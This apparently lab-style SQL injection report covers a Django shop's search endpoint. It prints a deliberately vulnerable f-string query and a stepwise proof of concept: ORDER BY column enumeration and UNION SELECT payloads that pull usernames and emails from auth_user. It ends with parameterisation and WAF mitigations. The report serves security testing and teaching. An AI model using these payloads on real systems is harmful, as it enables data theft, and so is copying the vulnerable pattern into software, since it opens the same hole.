


# SQL Injection Vulnerability Report

## Vulnerability Overview

**Application:** Django E-commerce Application
**Vulnerable Endpoint:** `http://10.110.2.100:8005/search/`
**Severity:** Critical
**Discovery Date:** 2025-12-18

---

## 1. How the Vulnerability is Present in the Application

The SQL Injection vulnerability exists in the search functionality of the Django e-commerce application running on port 8005. The application fails to properly sanitize user input in the search query parameter (`?q=`), allowing attackers to inject arbitrary SQL commands.

### Vulnerable Code Pattern

The vulnerability likely stems from raw SQL queries being constructed with unsanitized user input, such as:

```python
def search_products(request):
    query = request.GET.get('q', '')
    sql = f"SELECT * FROM products WHERE name LIKE '%{query}%' ORDER BY {sort_column}"
    results = Product.objects.raw(sql)
    return render(request, 'search.html', {'results': results})
```


### Exploitation Evidence

The vulnerability was confirmed through two attack vectors:

#### 1. ORDER BY Column Enumeration
**Payload:** `' ORDER BY 6; --`
**Response:** Database Error indicating the ORDER BY term is out of range (columns 1-5 exist)



This confirms:
- SQL injection is possible
- The query has 5 columns
- Error messages are exposed to users

#### 2. UNION-based Data Extraction
**Payload:** `' UNION SELECT 1,username,3,4,5 FROM auth_user /*`
**Result:** Successfully extracted usernames from the `auth_user` table



The attack successfully retrieved sensitive user data, demonstrating the ability to:
- Execute arbitrary SQL queries
- Access data from other database tables
- Extract authentication information

---

## 2. Associated CWEs

- **CWE-89: SQL Injection**
  Primary classification for this vulnerability

- **CWE-20: Improper Input Validation**
  Root cause - failure to validate/sanitize user input

- **CWE-707: Improper Neutralization**
  Failure to neutralize special SQL characters

- **CWE-209: Generation of Error Message Containing Sensitive Information**
  Database errors expose internal structure

---

## 3. Impact of the Vulnerability

### Confidentiality Impact: HIGH
- **Data Breach:** Complete access to database contents including:
  - User credentials (usernames, password hashes)
  - Personal information (emails, addresses, phone numbers)
  - Administrative credentials
  - Any other relevant and stored informations

### Integrity Impact: HIGH
- **Data Manipulation:** Attackers can:
  - Modify product prices
  - Change user account details
  - Alter order statuses
  - Insert malicious data
  - Delete records

### Availability Impact: HIGH
- **Service Disruption:** Potential for:
  - Database deletion (`DROP TABLE`)
  - Resource exhaustion through heavy queries
  - Application crashes
  - Denial of service

---

## 4. Exploit Proof of Concept

### Step 1: Identify Injection Point
```
URL: http://10.110.2.100:8005/search/?q=test
Method: GET
Parameter: q
```

### Step 2: Confirm SQL Injection
```
Payload: ' OR '1'='1
URL: http://10.110.2.100:8005/search/?q=' OR '1'='1
Expected: Returns all products (bypasses search filter)
```

### Step 3: Enumerate Columns
```
Payload: ' ORDER BY 1--
Result: Success (column exists)

Payload: ' ORDER BY 5--
Result: Success (5 columns exist)

Payload: ' ORDER BY 6--
Result: Error - "1st ORDER BY term out of range"
Conclusion: Query has 5 columns
```

### Step 4: Find Injectable Columns
```
Payload: ' UNION SELECT 1,2,3,4,5--
```

### Step 5: Extract Database Information
```

# Extract usernames, Django usually keeps in auth_user
Payload: ' UNION SELECT 1,username,3,4,5 FROM auth_user--
```

### Step 6: Extract Sensitive Data
```
# Extract username and email pairs
Payload: ' UNION SELECT 1,username,email,4,5 FROM auth_user--

### Advanced Exploitation
```

---

## 5. Recommended Mitigation Strategies

### With code changes
#### A. Use Django ORM Properly (Primary Fix)
```python
from django.db.models import Q

def search_products(request):
    query = request.GET.get('q', '')

    # SECURE: Use Django ORM with parameterized queries
    results = Product.objects.filter(
        Q(name__icontains=query) |
        Q(description__icontains=query)
    )

    return render(request, 'search.html', {'results': results})
```

#### B. If Raw SQL, Use Parameterization
```python
from django.db import connection

def search_products_raw(request):
    query = request.GET.get('q', '')

    # SECURE: Use parameterized queries
    with connection.cursor() as cursor:
        cursor.execute(
            "SELECT * FROM products WHERE name LIKE %s OR description LIKE %s",
            [f'%{query}%', f'%{query}%']  # Parameters are properly escaped
        )
        results = cursor.fetchall()

    return render(request, 'search.html', {'results': results})
```

#### C. Input Validation and Sanitization
```python
import re
from django.core.exceptions import ValidationError

def validate_search_input(query):
    # Whitelist allowed characters
    if not re.match(r'^[a-zA-Z0-9\s\-\_]+$', query):
        raise ValidationError("Invalid search characters")

    # Length restriction
    if len(query) > 100:
        raise ValidationError("Search query too long")

    return query

def search_products(request):
    query = request.GET.get('q', '')

    try:
        query = validate_search_input(query)
        results = Product.objects.filter(name__icontains=query)
    except ValidationError as e:
        return render(request, 'search.html', {'error': str(e)})

    return render(request, 'search.html', {'results': results})
```

### Without Code Changes

When code modifications aren't immediately possible, several security layers can help mitigate SQL injection risks:

#### 1. Web Application Firewall (WAF)
Deploy a WAF like ModSecurity with OWASP Core Rule Set to detect and block common SQL injection patterns. The WAF inspects HTTP requests and can block suspicious payloads containing SQL keywords like UNION, ORDER BY, or comment sequences before they reach the application.

#### 2. Database User Permissions
Create a dedicated database user for the application with minimal privileges. The user should only have SELECT, INSERT, and UPDATE permissions on necessary tables. Avoid granting DROP, DELETE, or administrative privileges. This limits damage even if injection occurs.

#### 3. Input Rate Limiting
Implement rate limiting on search endpoints to slow down automated exploitation attempts. Tools like Fail2Ban or django-ratelimit can temporarily block IPs making suspicious or excessive requests.


---

## 6. References and Tools Used

### Tools
1. **Web Browser (Firefox)**
   - Manual testing and payload injection
   - Developer tools for request inspection

Could've used SQL Map but the query was simple to find.

### References

1. **OWASP SQL Injection**
   https://owasp.org/www-community/attacks/SQL_Injection

2. **CWE-89: Improper Neutralization of Special Elements used in an SQL Command**
   https://cwe.mitre.org/data/definitions/89.html

3. **PortSwigger SQL Injection Cheat Sheet**
   https://portswigger.net/web-security/sql-injection/cheat-sheet


---

## 7. Supporting Materials

### Screenshots


---
